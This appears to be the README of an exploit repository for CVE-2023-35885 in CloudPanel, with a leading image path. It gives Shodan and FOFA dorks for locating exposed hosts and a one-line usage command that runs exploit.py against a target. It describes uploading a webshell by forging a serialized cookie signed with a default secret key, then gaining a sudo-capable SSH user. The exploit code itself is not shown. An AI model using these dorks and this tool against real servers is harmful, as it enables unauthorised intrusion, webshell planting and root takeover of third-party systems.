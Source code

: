 # CVE-2023-35885
Cloudpanel Exploit

- Shodan dork:
```
http.favicon.hash:151132309
```
- FOFA dork: 
```
icon_hash="151132309"
```
## Usage
```
chmod +x exploit.py; python3 exploit.py -T target_ip:target_port 
```

## PROOF OF CONCEPT
Upload webshell by inject encrypted "serialized" clp-fm cookie with default secret key.
<br><br>
<img src='Screenshots/firstrun.jpg'>

Uploaded Shell from automated python script.
<br><br>
<img src='Screenshots/uploadedshell.jpg'>

SSH user with already granted sudo privileges.
<br><br>
<img src='Screenshots/rooted.jpg'>
